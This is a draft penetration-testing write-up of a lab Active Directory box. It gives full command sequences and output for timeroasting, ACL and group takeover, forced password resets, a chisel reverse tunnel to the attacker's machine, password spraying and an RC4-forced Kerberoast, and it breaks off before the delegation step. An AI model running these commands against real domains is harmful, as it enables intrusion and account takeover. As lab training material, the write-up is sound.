+++
title = "HSM Defense"
date = 2026-11-15
description = "Assumed-breach AD box with NTLM switched off. A timeroasted computer account, a logonHours block, an OU move for inherited GenericAll, an RC4-forced Kerberoast, a credential-leaking SSH client and constrained delegation to Domain Admin."
draft = true

[extra]
platform = "hacksmarter"
os = "windows"
difficulty = "hard"
chain = ["Timeroast HELPDESK01$", "ServiceDesk takeover", "logonHours fix and WinRM", "MariaDB creds and password spray", "OU move for GenericAll", "RC4 Kerberoast", "SSH MITM for ITOPS01$", "Constrained delegation to DA"]
+++

> HSM Defense is a defense contractor, and is required to have an in-depth penetration test done against their internal Domain Controller. You have been hired to perform a comprehensive penetration test and, if possible, elevate your privileges to Domain Admin to demonstrate impact. You have been provided credentials for a low-privileged Active Directory user:
>
> ```text
> Username: kelly.johnson
> Password: Lordofwar
> ```

Long chain incoming. Nothing in it is exotic on its own, but almost every step has a small catch that stops the obvious tool from working.

## Recon

```bash
nmap -sCV -p- -Pn -v --min-rate 500 10.1.175.98 -oN nmap/hsm_tcp_full.txt
```

```text,hl_lines=1 3 5 12 14-15
25/tcp    open  smtp          hMailServer smtpd
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Office Careers | HSM Defense
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-14 20:48:36Z)
110/tcp   open  pop3          hMailServer pop3d
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hsm-defense.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hsm-defense.local
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

A domain controller that also runs a website, a mail server (hMailServer) and RDP. That is a lot of roles for one box.

Hosts entry:

```text
10.1.175.98     DC.hsm-defense.local hsm-defense.local DC
```

### why NTLM dies here

First check with the provided creds:

```bash
nxc ldap 10.1.175.98 -u 'kelly.johnson' -p 'Lordofwar'
```

```text,hl_lines=1-2
LDAP        10.1.175.98     389    DC               [*] None (name:DC) (domain:hsm-defense.local) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        10.1.175.98     389    DC               [-] hsm-defense.local\kelly.johnson:Lordofwar STATUS_NOT_SUPPORTED
```

the creds are fine. `NTLM:False` is the answer: NTLM is disabled domain-wide, and `STATUS_NOT_SUPPORTED` is the DC refusing the protocol, not the password.
so everything goes over Kerberos. `/etc/krb5.conf`:

```text
[libdefaults]
    default_realm = HSM-DEFENSE.LOCAL
    dns_lookup_kdc = false
    dns_lookup_realm = false
    rdns = false

[realms]
    HSM-DEFENSE.LOCAL = {
        kdc = DC.HSM-DEFENSE.LOCAL
        admin_server = DC.HSM-DEFENSE.LOCAL
    }

[domain_realm]
    .hsm-defense.local = HSM-DEFENSE.LOCAL
    hsm-defense.local = HSM-DEFENSE.LOCAL
```

Grab a TGT for kelly and work from the ccache from here on:

```bash
impacket-getTGT HSM-DEFENSE.LOCAL/kelly.johnson:Lordofwar -dc-ip 10.1.175.98
export KRB5CCNAME=kelly.johnson.ccache
```

```text
[*] Saving ticket in kelly.johnson.ccache
```

`-k` against SMB confirms the ticket works and the shares are the stock set:

```bash
nxc smb 10.1.175.98 -u 'kelly.johnson' -p 'Lordofwar' -k --shares
```

```text,hl_lines=2
SMB         10.1.175.98     445    DC               [*]  x64 (name:DC) (domain:hsm-defense.local) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.1.175.98     445    DC               [+] hsm-defense.local\kelly.johnson:Lordofwar
SMB         10.1.175.98     445    DC               ADMIN$                          Remote Admin
SMB         10.1.175.98     445    DC               C$                              Default share
SMB         10.1.175.98     445    DC               IPC$            READ            Remote IPC
SMB         10.1.175.98     445    DC               NETLOGON        READ            Logon server share
SMB         10.1.175.98     445    DC               SYSVOL          READ            Logon server share
```

## Enumeration

### The support portal

The website on 80 is a careers site, but vhost fuzzing turns up more:

```bash
ffuf -H "Host: FUZZ.hsm-defense.local" -u http://hsm-defense.local \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 23355
```

```text,hl_lines=1
support                 [Status: 401, Size: 1293, Words: 81, Lines: 30, Duration: 130ms]
```

`support.hsm-defense.local` answers `401`, so there is an auth prompt in front of it. the provided domain creds get me in, and it's an internal helpdesk portal. logged in as kelly.johnson, one open ticket is worth copying out in full, because it describes a problem i'll run straight into much later:

```text
TICKET-2424: Cannot add users to certain OUs despite having GenericAll rights
caleb.turner · priority: high · status: open · category: active directory / permissions

I have GenericAll (full control) over several organizational units based on my
group memberships. However, when I try to create new user objects inside some
of them, the CreateChild operation is blocked. It's not consistent: some
containers work, others don't.

NOTE: Suspected explicit Deny ACE on CreateChild that overrides the GenericAll.
Deny entries always take precedence over Allow.
```

park that. it's a hint from the target's own ticket queue, and it names the exact mechanism.

### BloodHound

Collection runs over LDAP with the Kerberos ticket (`-k`), pointed at the DC by name so the ticket's SPN matches:

```bash
rusthound-ce -d hsm-defense.local -k -f DC.hsm-defense.local -i 10.1.175.98 -c All -z
```

```text
[2026-11-14T21:01:19Z INFO  rusthound_ce::transport::ldap] Connected to HSM-DEFENSE.LOCAL Active Directory!
[2026-11-14T21:01:28Z INFO  rusthound_ce::json::maker::common] 28 users parsed!
[2026-11-14T21:01:28Z INFO  rusthound_ce::json::maker::common] 67 groups parsed!
[2026-11-14T21:01:28Z INFO  rusthound_ce::json::maker::common] 3 computers parsed!
```

kelly herself is a dead end, `bloodyad get writable` shows nothing but her own object and some DNS nodes. AS-REProasting the full user list comes back empty (no accounts with pre-auth disabled), and there are no kerberoastable SPNs. the user doesn't have a path. but the directory has three computer accounts, and one of them does.

## Foothold: timeroasting HELPDESK01$

Timeroast abuses the fact that a DC will answer an NTP request for any computer account's RID and key the reply's MAC with that account's NT hash, no auth required. nxc has a module:

```bash
nxc smb 10.1.175.98 -u kelly.johnson -p 'Lordofwar' -k -M timeroast
```

```text,hl_lines=3
TIMEROAST   10.1.175.98     445    DC               [*] Starting Timeroasting...
TIMEROAST   10.1.175.98     445    DC               1000:$sntp-ms$...
TIMEROAST   10.1.175.98     445    DC               1105:$sntp-ms$862df7f49cfa2d6d3c77ada7a19cb557$1c0111e9...
TIMEROAST   10.1.175.98     445    DC               1122:$sntp-ms$...
```

RID 1105 cracks instantly against rockyou:

```bash
hashcat 1105_timeroast /usr/share/wordlists/rockyou.txt --username
```

```text,hl_lines=1
$sntp-ms$862df7f49cfa2d6d3c77ada7a19cb557$...:Password123
```

A RID isn't a name, so resolve it over LDAP:

```bash
nxc ldap 10.1.175.98 -u kelly.johnson -p 'Lordofwar' -k \
  --query "(objectSid=S-1-5-21-1508256018-1502282808-1859300581-1105)" "sAMAccountName"
```

```text,hl_lines=2
LDAP        10.1.175.98     389    DC               [+] Response for object: CN=HELPDESK01,CN=Computers,DC=hsm-defense,DC=local
LDAP        10.1.175.98     389    DC               sAMAccountName       HELPDESK01$
```

So `Password123` belongs to the HELPDESK01$ machine account. the lab reset between recon and this point, so the box is on `10.1.44.165` from here on. take a ticket as the computer account:

```bash
impacket-getTGT 'HSM-DEFENSE.LOCAL/HELPDESK01$:Password123' -dc-ip 10.1.44.165
export KRB5CCNAME=HELPDESK01$.ccache
```

## ServiceDesk takeover

HELPDESK01$ can see things kelly couldn't:

```bash
bloodyad --host DC.HSM-DEFENSE.LOCAL -d HSM-DEFENSE.LOCAL -k get writable
```

```text,hl_lines=1-2
distinguishedName: CN=ServiceDesk,CN=Users,DC=hsm-defense,DC=local
OWNER: WRITE
```



WriteOwner over a group is a full takeover in three moves: make myself the owner, grant myself the right to edit membership, then add myself. own it first:

```bash
impacket-owneredit -action write -new-owner 'HELPDESK01$' -target 'SERVICEDESK' \
  'HSM-DEFENSE.LOCAL/HELPDESK01$' -k -no-pass -dc-host DC.hsm-defense.local -dc-ip 10.1.44.165
```

```text,hl_lines=4
[*] Current owner information below
[*] - SID: S-1-5-21-1508256018-1502282808-1859300581-512
[*] - sAMAccountName: Domain Admins
[*] OwnerSid modified successfully!
```

the group was owned by Domain Admins, and now it's mine. write a WriteMembers ACE, then drop the computer account into the group:

```bash
impacket-dacledit -action write -rights WriteMembers -principal 'HELPDESK01$' -target 'SERVICEDESK' \
  'HSM-DEFENSE.LOCAL/HELPDESK01$' -k -no-pass -dc-host DC.hsm-defense.local -dc-ip 10.1.44.165
bloodyad --host DC.hsm-defense.local -d hsm-defense.local -k add groupMember SERVICEDESK 'HELPDESK01$'
```

```text
[*] DACL modified successfully!
[+] HELPDESK01$ added to SERVICEDESK
```

Re-request the ticket so the new group membership lands in the PAC. ServiceDesk has ForceChangePassword over three users.



jason.caldwell is the interesting one, because jason is in Remote Management Users, the group that gates WinRM.



```bash
bloodyad --host DC.hsm-defense.local -d hsm-defense.local -k set password jason.caldwell 'Pass123!'
```

```text
[+] Password changed successfully!
```

## logonHours and WinRM

### why jason dies here

password set, but the ticket request is refused:

```bash
impacket-getTGT 'HSM-DEFENSE.LOCAL/jason.caldwell:Pass123!' -dc-ip 10.1.44.165
```

```text,hl_lines=1
Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```

that error usually means a disabled or locked account, but jason is neither. check the logon policy attributes:

```bash
bloodyad --host DC.HSM-DEFENSE.LOCAL -d HSM-DEFENSE.LOCAL -k \
  get object jason.caldwell --attr accountExpires,logonHours,lockoutTime
```

```text,hl_lines=3
distinguishedName: CN=jason.caldwell,CN=Users,DC=hsm-defense,DC=local
accountExpires: 9999-12-31 23:59:59.999999+00:00
logonHours:
```

`logonHours` comes back blank. that attribute is a bitmap of the hours a user is permitted to log on, and here it's set but zeroed out, so all 168 hours of the week are denied and the KDC revokes every request.

ServiceDesk's other target fixes it. luke.harrison is in Account Administration, which carries write access over other users' logon settings, including jason's `logonHours`.



so take luke the same way, then as luke clear `logonHours` on jason. an unset attribute means every hour is allowed:

```bash
bloodyad --host DC.hsm-defense.local -d hsm-defense.local -k set password luke.harrison 'Pass123!'
impacket-getTGT 'HSM-DEFENSE.LOCAL/luke.harrison:Pass123!' -dc-ip 10.1.44.165
export KRB5CCNAME=luke.harrison.ccache
bloodyad --host DC.hsm-defense.local -d hsm-defense.local -k set object jason.caldwell logonHours
```

```text,hl_lines=2
[!] Attribute encoding not supported for logonHours with bytes attribute type, using raw mode
[+] jason.caldwell's logonHours has been updated
```

with the schedule cleared, jason's ticket issues, and Remote Management Users gets me a shell:

```bash
impacket-getTGT 'HSM-DEFENSE.LOCAL/jason.caldwell:Pass123!' -dc-ip 10.1.44.165
export KRB5CCNAME=jason.caldwell.ccache
evil-winrm-py -i DC.hsm-defense.local -k --no-pass
```

```text,hl_lines=2
[*] Connecting to 'DC.hsm-defense.local:5985' as 'jason.caldwell@HSM-DEFENSE.LOCAL'
hsmdefense\jason.caldwell
```

## MariaDB creds and a password spray

On the box, this DC is also an app server, so the interesting loot is in application configs. hMailServer stores its admin and database passwords in an ini:

```powershell
type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.ini"
```

```text,hl_lines=3
[Security]
AdministratorPassword=6c9b8b27dea1ddb845f96aa2567c6754
[Database]
Password=ededc59087c17870bb76fffbe75a3af2
PasswordEncryption=1
```

the admin hash cracks to a weak password, but it only unlocks the mail admin console and goes nowhere against AD, so i leave it. the config that matters is MariaDB's, which keeps its root password in cleartext:

```powershell
Get-ChildItem "C:\Program Files","C:\ProgramData" -Recurse -Include *.ini -EA 0 |
  Select-String -Pattern "password|database_user" -EA 0
```

```text,hl_lines=3
C:\Program Files\MariaDB 10.6\data\my.ini:12:database_host=127.0.0.1
C:\Program Files\MariaDB 10.6\data\my.ini:13:database_user=root
C:\Program Files\MariaDB 10.6\data\my.ini:14:database_password=pa$$w0rd12
```

MariaDB only listens on localhost, so i need the port forwarded off the box. upload chisel and open a single reverse tunnel that brings 3306 back to my kali:

```bash
chisel server -p 8080 --reverse
```

```powershell
.\chisel client 10.200.114.139:8080 R:3306:127.0.0.1:3306
```

Now MariaDB answers on my own loopback, root with the cleartext password:

```bash
mysql -h 127.0.0.1 -P 3306 -u root -p'pa$$w0rd12' --skip-ssl
```

```text
MariaDB [(none)]> show databases;
+--------------------+
| hsm_defense        |
| new_employees      |
+--------------------+
```

`new_employees` is exactly what it sounds like, an onboarding table with username/password pairs:

```text
MariaDB [new_employees]> select * from employees;
+----+--------------+----------------------------------+
| id | username     | password                         |
+----+--------------+----------------------------------+
|  1 | aaron.pierce | d482a055616317f569cd1ab90325479e |
|  2 | nathan.reed  | d482a055616317f569cd1ab90325479e |
|  4 | adam.brooks  | f3a4f28a0aaf388c0ce16a6011acf511 |
+----+--------------+----------------------------------+
```

the first hash is a plain MD5 and falls to rockyou:

```bash
hashcat -m0 hashes_mysql /usr/share/wordlists/rockyou.txt --show
```

```text,hl_lines=1
d482a055616317f569cd1ab90325479e://newpassword123
```

a default onboarding password is worth spraying across the whole domain, not just the two accounts it was set on. kerbrute sprays over Kerberos so NTLM being off doesn't matter:

```bash
kerbrute passwordspray -d HSM-DEFENSE.LOCAL --dc DC.HSM-DEFENSE.LOCAL users.txt '//newpassword123'
```

```text,hl_lines=1-2
[+] VALID LOGIN:  caleb.turner@HSM-DEFENSE.LOCAL://newpassword123
[+] VALID LOGIN:  aaron.pierce@HSM-DEFENSE.LOCAL://newpassword123
```

caleb.turner never changed it, and caleb is in Remote Management Users, so another WinRM shell and the user flag:

```bash
impacket-getTGT HSM-DEFENSE.LOCAL/caleb.turner:'//newpassword123' -dc-ip 10.1.44.165
export KRB5CCNAME=caleb.turner.ccache
evil-winrm-py -i DC.HSM-DEFENSE.LOCAL -k
```

```text
FLAG{HSM_OPSEC…L_INTERNAL}
```

## An OU move for GenericAll

caleb is the account the ticket from earlier was filed under, and his group memberships are why: IT OU Operators, plus NewEmployees and Remote Management Users.



IT OU Operators has GenericAll over the IT-Tier OUs, which should let caleb create or fully control objects inside them. the useful target in there is oscar.mazerath, who sits in IT-Tier1 and, through the IT-Support group, has GenericWrite over ryan.cole. owning oscar is the next hop.

### why oscar's roast dies here

the obvious move is to abuse GenericAll directly, and the first thing i reach for is a targeted kerberoast of oscar, since caleb's rights cover oscar's Public-Information property set, which includes the SPN:

```bash
python3 targetedKerberoast.py -v -d HSM-DEFENSE.LOCAL -u caleb.turner -p '//newpassword123' \
  -k --dc-ip 10.1.44.165 --dc-host DC.HSM-DEFENSE.LOCAL
```

```text,hl_lines=2
[+] Printing hash for (oscar.mazerath)
$krb5tgs$18$oscar.mazerath$HSM-DEFENSE.LOCAL$...
```

that `$18$` doesn't help. etype 18 is AES256, and hashcat mode 19700 grinds it at about 19 kH/s on my CPU. rockyou still runs to the end, with nothing:

```text,hl_lines=1 3
Status...........: Exhausted
Hash.Mode........: 19700 (Kerberos 5, etype 18, TGS-REP)
Speed.#01........:    19438 H/s
```

oscar's password isn't in rockyou, and at 19 kH/s anything bigger isn't realistic on this hardware. so instead of pulling oscar's hash, i take full control of his account and change the password.

### why CreateChild dies here

this is where the ticket pays off: IT OU Operators has GenericAll on the Tier OUs, but IT-Tier4 carries an explicit **Deny CreateChild** ACE for that same group, which is why caleb can't create new users there. PowerView shows it:

```powershell
Get-DomainObjectAcl -Identity "OU=IT-TIER4,DC=hsm-defense,DC=local" -ResolveGUIDs |
  ? { $_.AceQualifier -match 'Denied' }
```

```text,hl_lines=2 3
AceQualifier           : AccessDenied
ActiveDirectoryRights  : CreateChild
ObjectAceType          : User
SecurityIdentifier     : S-1-5-21-1508256018-1502282808-1859300581-1132
AccessMask             : 1
```

SID -1132 is IT OU Operators, and a Deny always beats an Allow, exactly as the ticket said. but i don't need to *create* an object. the GenericAll is inherited by anything inside a Tier OU, so i move an existing account into one. caleb can write oscar's RDN, so i relocate oscar from IT-Tier1 into IT-Tier3, which has the GenericAll Allow and no Deny:

```bash
bloodyad -H DC.HSM-DEFENSE.LOCAL -d HSM-DEFENSE.LOCAL -u caleb.turner -k \
  set object 'CN=oscar.mazerath,OU=IT-Tier1,DC=hsm-defense,DC=local' \
  distinguishedName -v 'CN=oscar.mazerath,OU=IT-Tier3,DC=hsm-defense,DC=local'
```

```text
[+] CN=oscar.mazerath,OU=IT-Tier1,DC=hsm-defense,DC=local's distinguishedName has been updated
```

re-reading oscar's DACL now shows an inherited GenericAll for IT OU Operators that wasn't there in Tier1:

```text,hl_lines=2 3
nTSecurityDescriptor.ACL.13.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.13.Trustee: IT OU Operators; Enterprise Admins
nTSecurityDescriptor.ACL.13.Right: GENERIC_ALL
nTSecurityDescriptor.ACL.13.Flags: CONTAINER_INHERIT; INHERITED
```

full control, so just set the password:

```bash
bloodyad -H DC.HSM-DEFENSE.LOCAL -d HSM-DEFENSE.LOCAL -u caleb.turner -k \
  set password 'CN=oscar.mazerath,OU=IT-Tier3,DC=hsm-defense,DC=local' 'Pass123!'
```

```text
[+] Password changed successfully!
```

## RC4 Kerberoast

oscar has GenericWrite over ryan.cole through IT-Support, and ryan is the account i want, because ryan is in Remote Desktop Users.





oscar's roast crawled on AES, so this time i force the encryption type down before roasting. GenericWrite lets me set ryan's `msDS-SupportedEncryptionTypes` to `4`, which is RC4-only, then write a throwaway SPN:

```bash
bloodyad -H DC.HSM-DEFENSE.LOCAL -d HSM-DEFENSE.LOCAL -u oscar.mazerath -k \
  set object ryan.cole msDS-SupportedEncryptionTypes -v 4
bloodyad -H DC.HSM-DEFENSE.LOCAL -d HSM-DEFENSE.LOCAL -u oscar.mazerath -k \
  set object ryan.cole servicePrincipalName -v 'http/ryancole'
```

```text
[+] ryan.cole's msDS-SupportedEncryptionTypes has been updated
[+] ryan.cole's servicePrincipalName has been updated
```

now the roast comes back as etype 23 (RC4):

```bash
impacket-GetUserSPNs -k -no-pass -dc-host DC.HSM-DEFENSE.LOCAL \
  HSM-DEFENSE.LOCAL/oscar.mazerath -request-user ryan.cole
```

```text
$krb5tgs$23$*ryan.cole$HSM-DEFENSE.LOCAL$...
```

RC4 cracks at 2.5 MH/s instead of 19 kH/s, and rockyou finds it in seconds:

